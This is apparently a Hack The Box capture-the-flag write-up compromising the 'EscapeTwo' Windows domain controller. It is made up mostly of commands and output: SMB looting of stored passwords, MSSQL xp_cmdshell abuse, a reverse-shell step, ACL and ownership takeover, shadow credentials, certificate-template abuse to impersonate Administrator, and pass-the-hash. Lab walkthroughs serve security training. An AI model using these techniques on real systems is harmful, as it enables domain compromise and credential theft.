 # EscapeTwo Write-up

<img src="https://labs.hackthebox.com/storage/avatars/d5fcf2425893a73cf137284e2de580e1.png" width="200" height="200"> 

MACHINE INFORMATION

As is common in real life Windows pentests, you will start this box with credentials for the following account: `rose`:`KxEPkKe6R8su`

## Recon

### Nmap

`nmap -sC -sV 10.10.11.51`

    PORT     STATE SERVICE       VERSION
    53/tcp   open  domain        Simple DNS Plus
    88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-15 11:23:26Z)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
    |_ssl-date: 2025-01-15T11:25:00+00:00; -8s from scanner time.
    | ssl-cert: Subject: commonName=DC01.sequel.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
    | Not valid before: 2024-06-08T17:35:00
    |_Not valid after:  2025-06-08T17:35:00
    445/tcp  open  microsoft-ds?
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=DC01.sequel.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
    | Not valid before: 2024-06-08T17:35:00
    |_Not valid after:  2025-06-08T17:35:00
    |_ssl-date: 2025-01-15T11:25:00+00:00; -4s from scanner time.
    1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
    | ms-sql-ntlm-info: 
    |   10.10.11.51:1433: 
    |     Target_Name: SEQUEL
    |     NetBIOS_Domain_Name: SEQUEL
    |     NetBIOS_Computer_Name: DC01
    |     DNS_Domain_Name: sequel.htb
    |     DNS_Computer_Name: DC01.sequel.htb
    |     DNS_Tree_Name: sequel.htb
    |_    Product_Version: 10.0.17763
    |_ssl-date: 2025-01-15T11:25:00+00:00; +1s from scanner time.
    | ms-sql-info: 
    |   10.10.11.51:1433: 
    |     Version: 
    |       name: Microsoft SQL Server 2019 RTM
    |       number: 15.00.2000.00
    |       Product: Microsoft SQL Server 2019
    |       Service pack level: RTM
    |       Post-SP patches applied: false
    |_    TCP port: 1433
    | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
    | Not valid before: 2025-01-15T10:03:32
    |_Not valid after:  2055-01-15T10:03:32
    3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=DC01.sequel.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
    | Not valid before: 2024-06-08T17:35:00
    |_Not valid after:  2025-06-08T17:35:00
    |_ssl-date: 2025-01-15T11:25:00+00:00; -8s from scanner time.
    3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=DC01.sequel.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
    | Not valid before: 2024-06-08T17:35:00
    |_Not valid after:  2025-06-08T17:35:00
    |_ssl-date: 2025-01-15T11:25:00+00:00; -4s from scanner time.
    Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled and required
    |_clock-skew: mean: -2s, deviation: 4s, median: -4s
    | smb2-time: 
    |   date: 2025-01-15T11:24:19
    |_  start_date: N/A

### Netexec

`netexec ldap 10.10.11.51  -u rose -p KxEPkKe6R8su`

    SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
    LDAP        10.10.11.51     389    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 

Add IP `10.10.11.51` and domain-name `sequel.htb` to `/etc/hosts`. 

    echo "10.10.11.51 sequel.htb" | sudo tee -a /etc/hosts

### Crackmapexec

Try to enumerate SMB.

`crackmapexec smb 10.10.11.51 -u rose -p KxEPkKe6R8su` 

    SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
    
### SMBClient

    smbclient //10.10.11.51/Users -U SEQUEL.HTB//rose

![image](https://github.com/user-attachments/assets/3983400f-79ed-449e-8cb8-2beafca4bd08)

    smbclient //10.10.11.51/Accounting\ Department -U rose --option='client min protocol=SMB2'

![image](https://github.com/user-attachments/assets/18e726a9-5a6f-40b8-a080-0467fb65bf14)

You need to download it using the `get` command and then `unzip` it.

![image](https://github.com/user-attachments/assets/19ff0d71-5676-474e-bfda-a18196fc8bb0)

![image](https://github.com/user-attachments/assets/fe9480bb-040c-4026-952f-176923644ca6)

![image](https://github.com/user-attachments/assets/63b22e56-8c75-4812-b3e8-8ec28c5beb06)

First name, Last name / Email / Username / Password

`Angela Martin`:`angela@sequel.htb`:`angela`:`0fwz7Q4mSpurIt99`

`Oscar Martinez`:`oscar@sequel.htb`:`oscar`:`86LxLBMgEWaKUnBG`

`Kevin Malone`:`kevin@sequel.htb`:`kevin`:`Md9Wlq1E5bZnVDVo`

`NULL`:`sa@sequel.htb`:`sa`:`MSSQLP@ssw0rd!`

### MSSQLServer

    python3 mssqlclient.py 'sa:MSSQLP@ssw0rd!'@10.10.11.51

![image](https://github.com/user-attachments/assets/161f9fc9-bf3c-47a6-a725-fb7cd2eeb755)

SQL (sa  dbo@master)> `enable_xp_cmdshell`

SQL (sa  dbo@master)> `exec xp_cmdshell 'type \SQL2019\ExpressAdv_ENU\sql-Configuration.INI'`                                           

![image](https://github.com/user-attachments/assets/72fdfd63-da7a-4520-a51d-1dacea12a3f4)

SQLSVCPASSWORD="`WqSZAF6CysDQbGb3`"   

### ReverseShell

![image](https://github.com/user-attachments/assets/f4835fe1-7b9b-4287-83d4-9b8724605276)

xp_cmdshell <Your-base64-shell>

![image](https://github.com/user-attachments/assets/a5f40969-99e1-424a-8051-cdf84320c5c4)

### Evil-winrm

`ryan`:`WqSZAF6CysDQbGb3`

    evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3

Get the user flag!

![image](https://github.com/user-attachments/assets/b08d37e8-7216-4579-986f-872b59c418e6)

### Privelege Escalation 

BloodHound

    bloodhound-python -u ryan -p "WqSZAF6CysDQbGb3" -d sequel.htb -ns 10.10.11.51 -c All

BloodyAD

    bloodyAD --host dc01.sequel.htb -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan

![image](https://github.com/user-attachments/assets/149fa255-e048-4fc5-89d1-a047916f1414)

Dacledit

    dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'

![image](https://github.com/user-attachments/assets/fe9ee738-8ebd-4bb8-9095-c888448e814e)

Certipy-AD

    certipy-ad shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51 -ns 10.10.11.51 -target dc01.sequel.htb -account ca_svc

![image](https://github.com/user-attachments/assets/4f3b6c1b-1b5a-4b76-bba1-244794e6fed0)

    3b181b914e7a9d5508ea1e20bc2b7fce

Kerberos

    KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout 

![image](https://github.com/user-attachments/assets/cb837f4d-23a7-4f7a-87bd-0ed71d11ec1c)

Request to cert

    certipy-ad req -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51



Evil-WinRM

We can connect by `-H` flag, because we use hash, not password for connection to host.

    evil-winrm -i 10.10.11.51 -u administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff

![image](https://github.com/user-attachments/assets/4ac637e0-b016-4317-9121-18e231def811)

Get the root (system) flag!

![image](https://github.com/user-attachments/assets/a9cd8d13-d6a4-44d1-a2e6-4864e4fc7762)
